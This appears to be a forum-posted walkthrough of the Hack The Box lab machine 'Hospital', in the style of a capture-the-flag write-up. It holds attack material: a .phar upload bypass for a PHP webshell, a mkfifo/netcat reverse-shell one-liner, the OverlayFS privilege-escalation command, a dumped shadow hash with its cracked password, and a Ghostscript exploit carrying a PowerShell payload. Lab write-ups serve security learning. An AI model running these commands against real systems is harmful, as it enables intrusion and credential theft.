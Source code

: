 # Hospital -htb(Compi)


Nmap :
	huge list : Indications of a Active directory box.
	
```
Not shown: 65506 filtered tcp ports (no-response)  
PORT    STATE SERVICE          VERSION  
22/tcp  open  tcpwrapped  
| ssh-hostkey:  
|  256 e1:4b:4b:3a:6d:18:66:69:39:f7:aa:74:b3:16:0a:aa (ECDSA)  
|_  256 96:c1:dc:d8:97:20:95:e7:01:5f:20:a2:43:61:cb:ca (ED25519)  
53/tcp  open  domain            Simple DNS Plus  
88/tcp  open  kerberos-sec      Microsoft Windows Kerberos (server time: 2023-11-19 02:04:14Z)  
135/tcp  open  msrpc            Microsoft Windows RPC  
139/tcp  open  netbios-ssn      Microsoft Windows netbios-ssn  
389/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: hospital.htb0., Site: Default-First-Site-Name)  
| ssl-cert: Subject: commonName=DC  
| Subject Alternative Name: DNS![Big Grin](https://breachforums.is/images/smilies/biggrin.png "Big Grin")C, DNS![Big Grin](https://breachforums.is/images/smilies/biggrin.png "Big Grin")C.hospital.htb  
| Not valid before: 2023-09-06T10:49:03  
|_Not valid after:  2028-09-06T10:49:03  
443/tcp  open  ssl/http          Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.0.28)  
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28  
|_ssl-date: TLS randomness does not represent time  
|_http-title: Hospital Webmail :: Welcome to Hospital Webmail  
| ssl-cert: Subject: commonName=localhost  
| Not valid before: 2009-11-10T23:48:47  
|_Not valid after:  2019-11-08T23:48:47  
| tls-alpn:  
|_  http/1.1  
445/tcp  open  microsoft-ds?  
464/tcp  open  kpasswd5?  
593/tcp  open  ncacn_http        Microsoft Windows RPC over HTTP 1.0  
636/tcp  open  ldapssl?  
| ssl-cert: Subject: commonName=DC  
| Subject Alternative Name: DNS![Big Grin](https://breachforums.is/images/smilies/biggrin.png "Big Grin")C, DNS![Big Grin](https://breachforums.is/images/smilies/biggrin.png "Big Grin")C.hospital.htb  
| Not valid before: 2023-09-06T10:49:03  
|_Not valid after:  2028-09-06T10:49:03  
1801/tcp open  msmq?  
2103/tcp open  msrpc            Microsoft Windows RPC  
2105/tcp open  msrpc            Microsoft Windows RPC  
2107/tcp open  msrpc            Microsoft Windows RPC  
2179/tcp open  vmrdp?  
3268/tcp open  ldap              Microsoft Windows Active Directory LDAP (Domain: hospital.htb0., Site: Default-First-Site-Name)  
| ssl-cert: Subject: commonName=DC  
| Subject Alternative Name: DNS![Big Grin](https://breachforums.is/images/smilies/biggrin.png "Big Grin")C, DNS![Big Grin](https://breachforums.is/images/smilies/biggrin.png "Big Grin")C.hospital.htb  
| Not valid before: 2023-09-06T10:49:03  
|_Not valid after:  2028-09-06T10:49:03  
3269/tcp open  globalcatLDAPssl?  
| ssl-cert: Subject: commonName=DC  
| Subject Alternative Name: DNS![Big Grin](https://breachforums.is/images/smilies/biggrin.png "Big Grin")C, DNS![Big Grin](https://breachforums.is/images/smilies/biggrin.png "Big Grin")C.hospital.htb  
| Not valid before: 2023-09-06T10:49:03  
|_Not valid after:  2028-09-06T10:49:03  
3389/tcp open  ms-wbt-server    Microsoft Terminal Services  
| rdp-ntlm-info:  
|  Target_Name: HOSPITAL  
|  NetBIOS_Domain_Name: HOSPITAL  
|  NetBIOS_Computer_Name: DC  
|  DNS_Domain_Name: hospital.htb  
|  DNS_Computer_Name: DC.hospital.htb  
|  DNS_Tree_Name: hospital.htb  
|  Product_Version: 10.0.17763  
|_  System_Time: 2023-11-19T02:05:04+00:00  
| ssl-cert: Subject: commonName=DC.hospital.htb  
| Not valid before: 2023-09-05T18:39:34  
|_Not valid after:  2024-03-06T18:39:34  
5985/tcp open  http              Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)  
|_http-server-header: Microsoft-HTTPAPI/2.0  
|_http-title: Not Found  
6404/tcp open  msrpc            Microsoft Windows RPC  
6406/tcp open  ncacn_http        Microsoft Windows RPC over HTTP 1.0  
6407/tcp open  msrpc            Microsoft Windows RPC  
6409/tcp open  msrpc            Microsoft Windows RPC  
6614/tcp open  msrpc            Microsoft Windows RPC  
6625/tcp open  msrpc            Microsoft Windows RPC  
6638/tcp open  msrpc            Microsoft Windows RPC  
8080/tcp open  tcpwrapped  
| http-title: Login  
|_Requested resource was login.php  
|_http-open-proxy: Proxy might be redirecting requests  
|_http-server-header: Apache/2.4.55 (Ubuntu)  
9389/tcp open  mc-nmf            .NET Message Framing  
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

port 8080 site ENUM:
	loginpage with option to create acc.

		username/pass : chao/chao123

It has file upload capabilities but can only upload image .
But it also doesnt check whether the thing that i upload is actually in image or not, SO we could exploit this.

Enter `p0wny_Shell`:  Mind blowing stuff, check this video out.
https://www.youtube.com/watch?v=66YJlZXBmgA
	shell.php from p0wnyShell upload.---> It is giving me error, maybe because it checks       for extensions like php and restricts it.
	  
	To bypass this, just change the shell.php to shell.phar
	It will perfrom like a php file , infact phar is a complied version of php so it works.

---

Shell as www-data(p0wnyShell):
--
On `/var/www/html/uploads/ovlcap/upper` , i found a ELF executable named `magic`.

found `drwilliams` on /home ---> perm denied.

Further enum revealed that this machine's kernel is old and is vulneralbe to linux file overlay exploit:
https://www.reddit.com/r/selfhosted/comments/15ecpck/ubuntu_local_privilege_escalation_cve20232640/

But for that , we cant use this exploit from the p0wny shell, so we need netcat shell on our terminal.

open up a nc listener on kali
on p0wnyShell:
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc yourip 443 >/tmp/f`

Get ur connection back and now u can run the above exploit:
```
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;  
  
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("bash -i")'
```

***After that go to etc/shadow and grab drWlliams password hash.  Crack it***
```
drwilliams:$6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz3dABeF6QWumGBspUW378P1tlwak7NqzouoRTbrz6Ag0qcyGQxW192y/:19612:0:99999:7:::
```

Got the password : `drwilliams / qwe123!@#`

we had a port 443 port active on this domain, so lets check it out;
found a login page, use those creds gathered above:

logged in;

----

**Hospital WEBMAIL ENUM**:
--
Found a email sent to us from drBrown that says he needs a file with the format ".eps" so that it can be read with Ghostscript. Google GhostScript exploit and you will find a recent cve. 
Github the poc and you will find the exploit .
Modify the exploit to work with windows .
Get a shell.

From the POC use this command:
`python3 CVE_2023_36664_exploit.py --generate --payload "yourBase64encodedPowershellPayload" --filename revhsell --extension eps`


In you nc listener, get a connection back,
and get USER flag.

---

Shell as Dr Brown ENUM:
--
There is a Xampp folder in C. 
(`XAMPP is a local server and we can access files in it in our browser, in this case, we can access it from https://machineip/<whateverfileyouaretryingtoAcess>`)

Googling it , says it root directory is htdocs.
	--going to htdocs:
			found bunch of webshells.
			to access this  follow the above command and get root.

from google:
`**PHP files are saved in C:/Program Files/XAMPP/htdocs**. You have to open it, click on the program, and it will automatically run on localhost.`

You can grab a webshell just by googling.

root flag:
	`type C:\Users\Administrator\Desktop\root.txt`


pwned




`note : if you dont find webshells there, you need to upload your own.
just upload and execute.`
